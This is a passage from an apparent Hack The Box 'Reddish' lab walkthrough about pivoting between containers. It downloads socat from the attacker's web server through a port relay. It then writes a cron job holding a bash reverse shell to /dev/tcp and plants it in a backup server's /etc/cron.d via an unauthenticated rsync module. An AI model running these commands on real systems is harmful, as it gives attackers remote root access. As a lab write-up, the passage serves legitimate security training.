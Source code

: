 ![crond](/assets/img/htb/reddish/crond.png)

Before proceeding, the initial step involves downloading socat to the www container. This can be achieved by utilizing the already listening socat on the nodered server, redirecting port 9002 of nodered to the attacker machine's port 9002. Consequently, if a web server is launched by the attacker on port 9002, and a curl request is made from the www server to nodered on port 9002, the response received will be from the attacker machine's website.

> for the curl part simply use the `__curl` function mentioned before.

Then simply from the www container run
```bash
__curl http://172.19.0.4:9002/Cats/Linux/socat > socat
```

Assign executable permissions on socat and run it

```bash
root@www:~## chmod +x socat
root@www:~## ./socat TCP-LISTEN:9002,fork TCP:172.19.0.4:9002 &
```

> remember to close the web server running on port 9002 on the attacker machine before Proceeding

Now it is possible to exploit the cron misconfiguration of rsync following the next steps:

1. create a file with the new task 

```bash
echo '* * * * * root bash -c "bash -i >& /dev/tcp/172.20.0.2/9002 0>&1"' > task
```

2. upload the file to the cron folder of the remote server

```bash
rsync task rsync://backup:873/src/etc/cron.d/task
```
A reverse shell is obtained.

![revshell on backup](/assets/img/htb/reddish/revshell_backup.png)

Map updated

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [www] 172.19.0.2:80 == website (root)

      [backup] 172.20.0.3 (root)

    [redis] 172.19.0.3:6379 == database of 172.19.0.2

    [nodered]     172.19.0.4:1880 (root)
```
